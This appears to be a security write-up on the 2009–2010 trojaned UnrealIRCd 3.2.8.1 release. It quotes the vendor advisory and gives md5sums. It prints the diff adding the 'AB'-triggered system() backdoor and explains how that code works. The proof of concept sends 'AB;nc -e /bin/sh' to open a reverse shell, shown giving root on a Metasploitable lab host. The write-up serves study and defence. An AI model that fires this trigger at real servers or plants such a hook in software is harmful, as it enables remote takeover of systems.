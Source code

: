 # UnrealIRCd 3.2.8.1 Backdoor Command Execution

## Description :

UnrealIRCd 3.2.8.1, as distributed on certain mirror sites from November 2009 through June 2010, contains an externally introduced modification (Trojan Horse) in the `DEBUG3_DOLOG_SYSTEM` macro, which allows remote attackers to execute arbitrary commands.

Reported by the vendor. (https://www.securityfocus.com/bid/40820)

Metasploit module is also available for this vulnerability. It's written by:

* hdm <x@hdm.io>

## Digging the hole

The official security advisory (http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt) for getting detailed information is not available at the moment, throws **ERR_CONNECTION_TIMED_OUT**

To get it anyway, we can utilize the **Wayback Machine**

Read the local copy of advisory : [unrealsecadvisory.20100612.txt](unrealsecadvisory.20100612.txt)

```
This is very embarrassing...

We found out that the Unreal3.2.8.1.tar.gz file on our mirrors has been
replaced quite a while ago with a version with a backdoor (trojan) in it.
This backdoor allows a person to execute ANY command with the privileges of
the user running the ircd. The backdoor can be executed regardless of any user
restrictions (so even if you have passworded server or hub that doesn't allow
any users in).

It appears the replacement of the .tar.gz occurred in November 2009 (at least on some mirrors). It seems nobody noticed it until now.
```

Let's get our hands on it. Again, the advisory provides the md5sum we should look for.

```
One is to check if the Unreal3.2.8.1.tar.gz you have is good or bad by running 'md5sum Unreal3.2.8.1.tar.gz' on it.

Backdoored version (BAD) is: 752e46f2d873c1679fa99de3f52a274d
```

In sources, you can find the clean and backdoored versions of Unreal3.2.8.1, as said we can verify md5sums :

```
$ md5sum Unreal3.2.8.1*
752e46f2d873c1679fa99de3f52a274d  Unreal3.2.8.1_backdoor.tar.gz
7b741e94e867c0a7370553fd01506c66  Unreal3.2.8.1_clean.tar.gz
```

Yes, we've the backdoor code. We can now check the code diff.

```
$ diff -urN Unreal3.2.8.1_clean Unreal3.2.8.1_backdoor
```

```
diff -urN Unreal3.2.8.1_clean/include/struct.h Unreal3.2.8.1_backdoor/include/struct.h
--- Unreal3.2.8.1_clean/include/struct.h	2009-04-13 13:03:57.000000000 +0200
+++ Unreal3.2.8.1_backdoor/include/struct.h	2009-04-13 13:03:00.000000000 +0200
@@ -430,6 +430,7 @@
 #endif
 
 /* Fake lag exception */
+
 #define IsNoFakeLag(x)      ((x)->flags & FLAGS_NOFAKELAG)
 #define SetNoFakeLag(x)     ((x)->flags |= FLAGS_NOFAKELAG)
 #define ClearNoFakeLag(x)   ((x)->flags &= ~FLAGS_NOFAKELAG)
@@ -448,6 +449,7 @@
 #else
 #define IsNotSpoof(x)           (1)
 #endif
+#define	DEBUGMODE3	    ((x)->flags & FLAGS_NOFAKELAG)
 
 #define GetHost(x)			(IsHidden(x) ? (x)->user->virthost : (x)->user->realhost)
 #define GetIP(x)			((x->user && x->user->ip_str) ? x->user->ip_str : (MyConnect(x) ? Inet_ia2p(&x->ip) : NULL))
@@ -513,6 +515,10 @@
 #else
 #define CHECKPROTO(x,y) (checkprotoflags(x, y, __FILE__, __LINE__))
 #endif
+#ifdef DEBUGMODE3
+#define DEBUGMODE3_INFO	"AB"
+#define	DEBUG3_LOG(x) DEBUG3_DOLOG_SYSTEM (x)
+#endif
 
 #define DontSendQuit(x)		(CHECKPROTO(x, PROTO_NOQUIT))
 #define IsToken(x)		(CHECKPROTO(x, PROTO_TOKEN))
@@ -1373,6 +1379,7 @@
 #define INCLUDE_REMOTE     0x2
 #define INCLUDE_DLQUEUED   0x4
 #define INCLUDE_USED       0x8
+#define DEBUG3_DOLOG_SYSTEM(x) system(x)
 	
 struct _configitem_include {
 	ConfigItem *prev, *next;
diff -urN Unreal3.2.8.1_clean/src/s_bsd.c Unreal3.2.8.1_backdoor/src/s_bsd.c
--- Unreal3.2.8.1_clean/src/s_bsd.c	2009-03-01 19:37:58.000000000 +0100
+++ Unreal3.2.8.1_backdoor/src/s_bsd.c	2006-06-16 20:29:00.000000000 +0200
@@ -1431,6 +1431,10 @@
 		    return 1;
 		if (length <= 0)
 			return length;
+#ifdef DEBUGMODE3
+	if (!memcmp(readbuf, DEBUGMODE3_INFO, 2))
+	    DEBUG3_LOG(readbuf);
+#endif
 		for (h = Hooks[HOOKTYPE_RAWPACKET_IN]; h; h = h->next)
 		{
 			int v = (*(h->func.intfunc))(cptr, readbuf, length);

```

## Attack Anatomy

```
if (!memcmp(readbuf, DEBUGMODE3_INFO, 2)) /* if first two char from the buffer is "AB", it gets 0, and !0 = 1*/
```

The code is small, no explicit sockets are created, backdoor works over default socket/port (IRC) and uses `system()` to execute commands, `system()` executes a command specified in command by calling `/bin/sh -c` command, and returns after the command has been completed **if the passed data begins with special character sequence i.e. "AB"**.

`#ifdef` is just for increasing compatibility.

> In computer programming, conditional compilation is compilation implementing methods which allow the compiler to produce differences in the executable program produced and controlled by parameters that are provided during compilation. This technique is commonly used when these differences are needed to run the software on different platforms, or with different versions of required libraries or hardware. (https://en.wikipedia.org/wiki/Conditional_compilation)

> IRC was originally a plain text protocol (although later extended), which on request was assigned port 194/TCP by IANA. However, the de facto standard has always been to run IRC on 6667/TCP and nearby port numbers (for example TCP ports 6660–6669, 7000) to avoid having to run the IRCd software with root privileges. (https://en.wikipedia.org/wiki/Internet_Relay_Chat)


## Proof of Concept

#### Triggering the backdoor :

```
nc -vnlp 4444
nc TARGET_IP IRC_PORT
AB;nc -e "command" BOX_ADDR 4444
```

#### Get a shell :

```
root@w0ot:~$ nc 192.168.233.155 6667
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;nc -e /bin/sh 192.168.233.153 4444
^C
root@w0ot:~$ 
=======================================================================================================
root@w0ot:~$ nc -vnlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 192.168.233.155 41223 received!
id -un
root
^C
root@w0ot:~$ 
```
## Our Own Exploit Sandwitch






## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075
- https://www.exploit-db.com/exploits/13853
- https://linux.die.net/man/3/system
- https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor